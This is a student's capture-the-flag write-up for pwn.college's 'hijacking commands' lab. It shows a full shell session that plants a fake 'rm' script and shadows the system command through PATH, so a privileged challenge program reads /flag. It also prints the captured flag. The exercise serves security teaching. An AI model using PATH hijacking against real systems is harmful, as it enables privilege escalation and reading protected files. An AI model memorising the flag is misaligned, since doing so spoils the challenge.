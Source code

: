 # Challenge Name
hijacking commands

## My solve
**Flag:** `pwn.college{UwXJeNBIV7GKVw2Cw6d7n9SaZ8F.QX3cjM1wyN0gjNzEzW}`

```bash
Connected!
hacker@path~hijacking-commands:~$ mkdir -p /home/hacker/bin
cat > /home/hacker/bin/rm <<'EOF'
#!/bin/bash
if [ -r /flag ]; then
  read -r FLAG < /flag
  printf '%s\n' "$FLAG"
else
  for f in "$@"; do
    printf '(no /flag; argument: %s)\n' "$f" >&2
  done
fi
exit 0
EOF
chmod +x /home/hacker/bin/rm
PATH=/home/hacker/bin /challenge/run
Trying to remove /flag...
pwn.college{UwXJeNBIV7GKVw2Cw6d7n9SaZ8F.QX3cjM1wyN0gjNzEzW}
```
## Incorrect tangents I went on
I didnt change path correctly to hijack the remove command

## What I learned
I learned to delete certain commands by just changing the path

## References 
None
